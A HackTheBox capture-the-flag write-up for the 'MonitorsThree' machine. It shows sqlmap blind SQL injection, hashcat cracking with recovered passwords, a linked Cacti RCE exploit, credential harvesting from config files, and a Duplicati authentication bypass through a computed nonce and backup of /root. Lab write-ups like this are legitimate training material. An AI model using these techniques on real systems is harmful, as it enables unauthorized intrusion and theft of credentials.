 ```yaml
---
layout: post
title: "Monitors Three"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap 

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap monitorsthree.htb
```

![[Pasted image 20241009162037.png]]


nothing interesting just a website

vhost fuzzing
```bash
ffuf -H "Host: FUZZ.monitorsthree.htb" -u  http://monitorsthree.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 13560
```

![[Pasted image 20241009162141.png]]

when I check this cacti website , I found that is vulnerable to an rce

![[Pasted image 20241009162253.png]]

https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26

to exploit this we need creds 

so I start to enumerate the first website , on the `forget password` functionality , I found SQLi 


```payload
sss'
```

![[Pasted image 20241009162528.png]]

I tried to dump it manually , but it's blind so let's use sqlmap

```bash
sqlmap -r forgetpasssql --dbms mysql --dump --threads 10 -D monitorsthree_db -T users -C password --batch

# for the tables and colomuns I just guess them since  , to make it a bit faster 
```
![[Pasted image 20241009162709.png]]

![[Pasted image 20241009162725.png]]

let's crack them 
```bash
hashcat -a 0 -m 0 '31a181c8372e3afc59dab863430610e8'  /usr/share/wordlists/rockyou.txt 


31a181c8372e3afc59dab863430610e8:greencacti2001
```

I will use these creds to get foothold , I used msfconsoke for this 


and , I am in now 

![[Pasted image 20241009163450.png]]

search for cacti configuration file
```bash
www-data@monitorsthree:~/html/cacti/include$ cat config.php
```

![[Pasted image 20241009163758.png]]


![[Pasted image 20241009163853.png]]

```mysql
 mysql -u cactiuser -p 
 Enter password: cactiuser
```

on `user_auth` table , `cacti` db I found hashes for user
![[Pasted image 20241009165224.png]]

let's crack them 
```bash
hashcat -a 0 -m 3200 hash  /usr/share/wordlists/rockyou.txt

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

![[Pasted image 20241009165322.png]]

done with user .

```bash
netstat -ntlp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38441         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

there's some intersting port running internally.

two port that got my interest 8200,8084

there's also another application in `/opt`

```bash
 cat docker-compose.yml
```

```yml
version: "3"

services:
  duplicati:
    image: lscr.io/linuxserver/duplicati:latest
    container_name: duplicati
    environment:
      - PUID=0
      - PGID=0
      - TZ=Etc/UTC
    volumes:
      - /opt/duplicati/config:/config
      - /:/source
    ports:
      - 127.0.0.1:8200:8200
    restart: unless-stopped
```

this application is running on docker , we can access it on port `8200` 

another interesting point is , this application can access host file in `/source`

```
/:/source
```

so let's forward it to our machine

I found the ssh key on marcus home
```bash
ssh -L 8200:localhost:8200 marcus@monitorsthree.htb -i marcus_ssh
```

![[Pasted image 20241009170104.png]]


this apps suffer from authentication bypass , I  [followed this article to bypass authentication ](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee)
grab the `Duplicati-server.sqlite`
```
scp -i marcus_ssh marcus@monitorsthree.htb:/opt/duplicati/config/Duplicati-server.sqlite  .
```

on the options table

```
Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
```

![[Pasted image 20241009170548.png]]

![[Pasted image 20241009170823.png]]

now we need to get the `nonce`

just intercept request and response on burp

![[Pasted image 20241009171733.png]]


intercept response of this 

![[Pasted image 20241009171808.png]]


now on the browser

```js
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('OkRXyoFZf/zvfu4F5kxLWflz0No73EybQDRsIAANnFQ=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);
```

![[Pasted image 20241009172724.png]]

now send this as password


this website can backup any file/folder on the machine

so let's backup `/root`  remember  the app is running on docker to access files on the host machine we need to use `/source`


![[Pasted image 20241009173126.png]]
\
click on test connection to create folder
![[Pasted image 20241009173152.png]]

![[Pasted image 20241009173057.png]]


![[Pasted image 20241009173242.png]]


![[Pasted image 20241009173257.png]]

![[Pasted image 20241009173318.png]]


![[Pasted image 20241009173337.png]]


![[Pasted image 20241009173800.png]]


now we should find the root files on `/tmp/d0s3nt1`

![[Pasted image 20241009173831.png]]